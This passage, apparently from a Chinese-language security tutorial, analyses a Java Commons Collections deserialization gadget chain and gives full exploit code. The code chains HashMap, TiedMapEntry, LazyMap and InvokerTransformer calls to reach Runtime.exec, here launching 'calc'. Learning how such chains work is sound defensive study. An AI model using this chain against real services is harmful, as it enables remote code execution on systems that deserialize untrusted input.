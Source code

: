 > 这里在 25 行，也就是 `HashMap<Object, Object> expMap = new HashMap<>();` 这里打断点，会发现直接 24 行就弹计算器了，不要着急，这里是一个 IDEA 的小坑，后续会讲。

OK 言归正传，在构造最终 EXP 之前我们分析一波 ~

- `HashMap` 类的 `put()` 方法自动调用了 `hashCode` 方法，我们尝试构造 EXP，结果中居然出现了一个很神奇的现象？！

JAVA

```
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Field;  
import java.util.HashMap;  
import java.util.Map;  
  
// 用 HashMap 的 hash 方法完成链子  
public class HashMapEXP {  
    public static void main(String[] args) throws Exception{  
        Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(Runtime.class),  
 new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),  
 new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),  
 new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);  
 TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");  
 HashMap<Object, Object> expMap = new HashMap<>();  
 expMap.put(tiedMapEntry, "value");  
  
 serialize(expMap);  
 unserialize("ser.bin");  
 }  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```
